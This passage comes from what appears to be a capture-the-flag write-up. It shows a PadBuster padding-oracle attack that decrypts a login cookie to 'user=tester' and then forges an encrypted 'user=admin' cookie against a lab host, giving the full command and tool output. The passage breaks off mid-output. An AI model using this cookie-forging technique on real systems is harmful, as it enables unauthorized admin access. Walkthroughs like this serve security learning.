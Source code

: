    -------------------------------------------------------
    ** Finished ***
    
    [+] Decrypted value (ASCII): user=tester
    
    [+] Decrypted value (HEX): 757365723D7465737465720505050505
    
    [+] Decrypted value (Base64): dXNlcj10ZXN0ZXIFBQUFBQ==
    
    -------------------------------------------------------

The result says that, **user=tester** is being encrypted to resulted string, so its pretty straight forward that we have to create a encrypted phrase with **user=admin**. 


    padbuster http://10.10.10.18/login.php E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L 8 --cookie auth=E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L --encoding 0 -plaintext user=admin

Note: Replace with your auth value while using above command.


    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+
    
    INFO: The original request returned the following
    [+] Status: 200
    [+] Location: N/A
    [+] Content Length: 1486
    
    INFO: Starting PadBuster Encrypt Mode
    [+] Number of Blocks: 2
    
    INFO: No error string was provided...starting response analysis
    
    *** Response Analysis Complete ***
    
    The following response signatures were returned:
    
    -------------------------------------------------------
    ID#     Freq    Status  Length  Location
    -------------------------------------------------------
    1       1       200     1564    N/A
    2 **    255     200     15      N/A
    -------------------------------------------------------
    
    Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended : 2
    
    Continuing test with selection 2
    
    [+] Success: (196/256) [Byte 8]
    [+] Success: (148/256) [Byte 7]
    [+] Success: (92/256) [Byte 6]
    [+] Success: (41/256) [Byte 5]
    [+] Success: (218/256) [Byte 4]
    [+] Success: (136/256) [Byte 3]
    [+] Success: (150/256) [Byte 2]
    [+] Success: (190/256) [Byte 1]
    